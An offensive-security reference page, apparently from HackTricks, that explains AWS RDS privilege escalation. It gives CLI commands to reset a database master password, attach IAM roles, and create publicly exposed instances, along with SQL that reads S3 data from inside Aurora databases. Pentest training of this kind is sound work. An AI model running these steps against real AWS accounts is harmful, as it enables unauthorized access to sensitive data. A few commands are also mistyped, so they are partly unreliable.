 # AWS - RDS Privesc

{{#include ../../../banners/hacktricks-training.md}}

## RDS - Relational Database Service

For more information about RDS check:

{{#ref}}
../aws-services/aws-relational-database-rds-enum.md
{{#endref}}

### `rds:ModifyDBInstance`

With that permission an attacker can **modify the password of the master user**, and the login inside the database:

```bash
# Get the DB username, db name and address
aws rds describe-db-instances

# Modify the password and wait a couple of minutes
aws rds modify-db-instance \
    --db-instance-identifier <db-id> \
    --master-user-password 'Llaody2f6.123' \
    --apply-immediately

# In case of postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```

> [!WARNING]
> You will need to be able to **contact to the database** (they are usually only accessible from inside networks).

**Potential Impact:** Find sensitive info inside the databases.

### rds-db:connect

According to the [**docs**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html) a user with this permission could connect to the DB instance.

### Abuse RDS Role IAM permissions

#### Postgresql (Aurora)

> [!TIP]
> If running **`SELECT datname FROM pg_database;`** you find a database called **`rdsadmin`** you know you are inside an **AWS postgresql database**.

First you can check if this database has been used to access any other AWS service. You could check this looking at the installed extensions:

```sql
SELECT * FROM pg_extension;
```

If you find something like **`aws_s3`** you can assume this database has **some kind of access over S3** (there are other extensions such as **`aws_ml`** and **`aws_lambda`**).

Also, if you have permissions to run **`aws rds describe-db-clusters`** you can see there if the **cluster has any IAM Role attached** in the field **`AssociatedRoles`**. If any, you can assume that the database was **prepared to access other AWS services**. Based on the **name of the role** (or if you can get the **permissions** of the role) you could **guess** what extra access the database has.

Now, to **read a file inside a bucket** you need to know the full path. You can read it with:

```sql
// Create table
CREATE TABLE ttemp (col TEXT);

// Create s3 uri
SELECT aws_commons.create_s3_uri(
   'test1234567890678', // Name of the bucket
   'data.csv',          // Name of the file
   'eu-west-1'          //region of the bucket
) AS s3_uri \gset

// Load file contents in table
SELECT aws_s3.table_import_from_s3('ttemp', '', '(format text)',:'s3_uri');

// Get info
SELECT * from ttemp;

// Delete table
DROP TABLE ttemp;
```

If you had **raw AWS credentials** you could also use them to access S3 data with:

```sql
SELECT aws_s3.table_import_from_s3(
   't', '', '(format csv)',
   :'s3_uri',
   aws_commons.create_aws_credentials('sample_access_key', 'sample_secret_key', '')
);
```

> [!NOTE]
> Postgresql **doesn't need to change any parameter group variable** to be able to access S3.

#### Mysql (Aurora)

> [!TIP]
> Inside a mysql, if you run the query **`SELECT User, Host FROM mysql.user;`** and there is a user called **`rdsadmin`**, you can assume you are inside an **AWS RDS mysql db**.

Inside the mysql run **`show variables;`** and if the variables such as **`aws_default_s3_role`**, **`aurora_load_from_s3_role`**, **`aurora_select_into_s3_role`**, have values, you can assume the database is prepared to access S3 data.

Also, if you have permissions to run **`aws rds describe-db-clusters`** you can check if the cluster has any **associated role**, which usually means access to AWS services).

Now, to **read a file inside a bucket** you need to know the full path. You can read it with:

```sql
CREATE TABLE ttemp (col TEXT);
LOAD DATA FROM S3 's3://mybucket/data.txt' INTO TABLE ttemp(col);
SELECT * FROM ttemp;
DROP TABLE ttemp;
```

### `rds:AddRoleToDBCluster`, `iam:PassRole`

An attacker with the permissions `rds:AddRoleToDBCluster` and `iam:PassRole` can **add a specified role to an existing RDS instance**. This could allow the attacker to **access sensitive data** or modify the data within the instance.

```bash
aws add-role-to-db-cluster --db-cluster-identifier <value> --role-arn <value>
```

**Potential Impact**: Access to sensitive data or unauthorized modifications to the data in the RDS instance.\
Note that some DBs require additional configs such as Mysql, which needs to specify the role ARN in the aprameter groups also.

### `rds:CreateDBInstance`

Just with this permission an attacker could create a **new instance inside a cluster** that already exists and has an **IAM role** attached. He won't be able to change the master user password, but he might be able to expose the new database instance to the internet:

```bash
aws --region eu-west-1 --profile none-priv rds create-db-instance \
    --db-instance-identifier mydbinstance2 \
    --db-instance-class db.t3.medium \
    --engine aurora-postgresql \
    --db-cluster-identifier database-1 \
    --db-security-groups "string" \
    --publicly-accessible
```

### `rds:CreateDBInstance`, `iam:PassRole`

> [!NOTE]
> TODO: Test

An attacker with the permissions `rds:CreateDBInstance` and `iam:PassRole` can **create a new RDS instance with a specified role attached**. The attacker can then potentially **access sensitive data** or modify the data within the instance.

> [!WARNING]
> Some requirements of the role/instance-profile to attach (from [**here**](https://docs.aws.amazon.com/cli/latest/reference/rds/create-db-instance.html)):

> - The profile must exist in your account.
> - The profile must have an IAM role that Amazon EC2 has permissions to assume.
> - The instance profile name and the associated IAM role name must start with the prefix `AWSRDSCustom` .

```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```

**Potential Impact**: Access to sensitive data or unauthorized modifications to the data in the RDS instance.

### `rds:AddRoleToDBInstance`, `iam:PassRole`

An attacker with the permissions `rds:AddRoleToDBInstance` and `iam:PassRole` can **add a specified role to an existing RDS instance**. This could allow the attacker to **access sensitive data** or modify the data within the instance.

> [!WARNING]
> The DB instance must be outside of a cluster for this

```bash
aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name <feat-name>
```

**Potential Impact**: Access to sensitive data or unauthorized modifications to the data in the RDS instance.

{{#include ../../../banners/hacktricks-training.md}}





